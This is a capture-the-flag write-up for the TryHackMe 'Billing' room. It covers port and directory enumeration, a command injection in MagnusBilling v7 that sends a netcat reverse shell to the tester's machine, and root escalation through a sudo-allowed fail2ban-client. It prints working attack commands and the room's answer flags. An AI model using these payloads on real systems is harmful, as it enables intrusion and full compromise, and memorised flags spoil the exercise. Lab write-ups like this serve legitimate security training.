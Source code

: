 # TryHackMe - Billing


### 🛠 Reco

Set an environment variable for the IP to simplify commands:

```bash
export IP=10.10.195.221
```
### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial $IP
```

**Results:**

```
PORT     STATE SERVICE VERSION                                          
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)    
| ssh-hostkey:                                                          
|   256 52:2b:de:2f:b9:58:4b:76:3f:da:75:d7:e6:6f:57:85 (ECDSA)         
|_  256 a0:95:5d:d9:ce:59:c1:0c:18:9c:ac:33:2f:2c:3a:5e (ED25519)       
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))                   
| http-title:             MagnusBilling                                 
|_Requested resource was http://10.10.195.221/mbilling/                 
| http-robots.txt: 1 disallowed entry                                   
|_/mbilling/                                                            
|_http-server-header: Apache/2.4.62 (Debian)                            
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel    
```

### mysql


Let's have a look at the mysql port first
```bash
telnet 10.10.195.221 3306
```
**Results:**
```
Trying 10.10.195.221...
Connected to 10.10.195.221.
Escape character is '^]'.
dHost 'ip-10-6-57-243.eu-west-1.compute.internal' is not allowed to connect to this MariaDB serverConnection closed by foreign host.
```

Nope

### 🔍 Gobuster

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.195.221 -x .php,.txt,.html | tee go_scan
```

**Results:**
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/index.php            (Status: 302) [Size: 1] [--> ./mbilling]
/robots.txt           (Status: 200) [Size: 37]
```
Gobuster found robots.txt. Let's take a look

**Results:**
```
User-agent: *
Disallow: /mbilling/
```

Just the mbilling page that index.php sends us to. Let's take a closwer look at that

### 🔍 mbilling

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.195.221/mbilling -x .php,.txt,.html,.md | tee mbilling_scan
```

**Results:**
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 30760]
/index.php            (Status: 200) [Size: 663]
/archive              (Status: 301) [Size: 325] [--> http://10.10.195.221/mbilling/archive/]
/resources            (Status: 301) [Size: 327] [--> http://10.10.195.221/mbilling/resources/]
/assets               (Status: 301) [Size: 324] [--> http://10.10.195.221/mbilling/assets/]
/lib                  (Status: 301) [Size: 321] [--> http://10.10.195.221/mbilling/lib/]
/README.md            (Status: 200) [Size: 1995]
/cron.php             (Status: 200) [Size: 0]
/LICENSE              (Status: 200) [Size: 7652]
/tmp                  (Status: 301) [Size: 321] [--> http://10.10.195.221/mbilling/tmp/]
/protected            (Status: 403) [Size: 278]
```
LICENSE  didn't give me anything but READEME.md provided the version of mbilling that is version 7. 


## 📌 Task 1: Flags

Note: Bruteforcing is out of scope for this room. hmmm


### Initial foothold


Searching for magnus 7 and exploit found lots of walk throughts of this box but I don't want to cheat. Adding github to my search revealed this repository with a straighforward exploit. Yes, I could have used metasploit but I prefer the manual way since metaspoloit is not allowed in OSCP.

https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit

The command is very straight forward. Just set up a listener first (nc -nlpvp 999) and then execute the command

```bash
curl -s 'http://10.10.195.221/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.57.243 9999 >/tmp/f;'
```

**Results:**
```bash
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
```
I am in as "asterisk". Let's get the user flag!

```bash
cat /home/magnus/user.txt

THM{4a6831d5f124b25eefb1e92e0f0da4ca}
```
**Q. What is the user.txt flag?
A. THM{4a6831d5f124b25eefb1e92e0f0da4ca}

```bash
sudo -l
```

**Results:**

```
Matching Defaults entries for asterisk on ip-10-10-239-115:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                      
                                                                        
Runas and Command-specific defaults for asterisk:                       
    Defaults!/usr/bin/fail2ban-client !requiretty                       
                                                                        
User asterisk may run the following commands on ip-10-10-239-115:       
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

### Root

I googled around and found a good resource for fail2bin privesc - https://vulners.com/packetstorm/PACKETSTORM:189989

This script does a bunch of checks but we can just rip out the comands and run them in bash. While we could update the script to do a reverse shell, we only need the flag. So, let's keep this simple!

```bash
sudo /usr/bin/fail2ban-client restart
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```
That copied the flag!

```bash
cat /tmp/root.txt
```
**Results:**
```
THM{33ad5b530e71a172648f424ec23fae60}
```
**Q. What is the root.txt flag?
A. THM{33ad5b530e71a172648f424ec23fae60}
